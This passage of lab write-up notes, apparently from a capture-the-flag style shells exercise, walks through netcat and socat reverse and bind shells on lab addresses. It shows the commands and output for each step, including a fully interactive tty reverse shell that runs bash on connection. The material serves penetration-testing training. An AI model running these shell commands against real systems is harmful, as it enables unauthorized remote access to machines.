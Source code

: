 2. Connect NetCat to listener.
```
nc 10.10.19.211 1234
```
3. Bind shell connected to named pipe method.
  * On target.
```
connect to [10.10.19.211] from (UNKNOWN} [10.10.145.37] 60982
```
  * On attacker.
```
whoami
shell
pwd
/home/shell
```
> Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

#### Create reverse shell and execute the bash process upon connection.
1. Create reverse shell on target host.
```
socat TCP:10.10.52.172:1234 EXEC:”bash -li”
```
2. Create listener on attack host.
```
socat TCP-L:1234 -
```
3. Reverse shell caught by listener.
```
pwd
/home/shell
```
#### Create bind shell and execute the bash process upon connection.
1. Create listener on target host.
```
socat TCP-L:12345 EXEC:”bash -li”
```
2. Bind to listener from attack host.
```
socat TCP:10.10.62.10:12345 -
```
3. Bind shell caught by listener.
```
pwd
/home/shell
```
#### Create fully stable reverse shell using socat special technique.
1. Create listener on attack host.
```
socat TCP-L:1234 FILE:`tty`,raw,echo=0
```
2. Create tty reverse shell on target host.
```
socat TCP:10.10.108.143:1234 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane
```
3. Fully interactive session created.
```
pwd
/home/shell
whoami
shell
```